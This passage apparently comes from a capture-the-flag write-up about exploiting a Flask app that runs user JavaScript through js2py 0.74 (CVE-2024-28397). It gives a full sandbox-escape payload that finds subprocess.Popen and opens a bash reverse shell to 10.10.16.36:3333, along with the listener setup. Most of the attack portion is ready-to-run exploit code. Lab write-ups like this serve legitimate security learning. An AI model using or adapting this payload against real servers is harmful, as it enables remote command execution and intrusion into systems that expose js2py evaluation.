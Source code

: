 From this, we can see the pattern of the app directory but what we curious more is this part.

```python
@app.route('/run_code', methods=['POST'])
def run_code():
    try:
        code = request.json.get('code')
        result = js2py.eval_js(code)
        return jsonify({'result': result})
    except Exception as e:
        return jsonify({'error': str(e)})
```

This one run in POST request, it use `js2py` library to run the code. The problem here is that user can send any javascript code to run. <br>
&rarr; Check out the `js2py` version from `requirements.txt` file.

```txt
js2py==0.74
```

Gonna search for vulnerability and found out this [CVE-2024-28397](https://nvd.nist.gov/vuln/detail/CVE-2024-28397).

### CVE-2024-28397
Also found out the [POC](https://github.com/Marven11/CVE-2024-28397-js2py-Sandbox-Escape/blob/main/poc.py) so we gonna exploit to sandbox escape.

First we will setup listerner to catch the reverse shell.

```bash
└─$ penelope -p 3333      
[+] Listening for reverse shells on 0.0.0.0:3333 →  127.0.0.1 • 172.xx.xx.xx • 172.xx.xx.xx • 10.10.16.36
- 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
```

Then we gonna modify the `poc.py` for reverse shell.

```javascript
// Bash reverse shell
var hacked = Object.getOwnPropertyNames({});
var attr = hacked.__getattribute__;
var obj = attr("__getattribute__")("__class__").__base__;

function findPopen(o) {
    try {
        var subs = o.__subclasses__();
        for (var i = 0; i < subs.length; i++) {
            var item = subs[i];
            if (item && item.__module__ === "subprocess" && item.__name__ === "Popen") {
                return item;
            }
        }
    } catch(e) {}
    return null;
}

var Popen = findPopen(obj);
if (Popen) {
    var cmd = "bash -c 'bash -i >& /dev/tcp/10.10.16.36/3333 0>&1'";
    Popen(cmd, -1, null, -1, -1, -1, null, null, true);
}
```
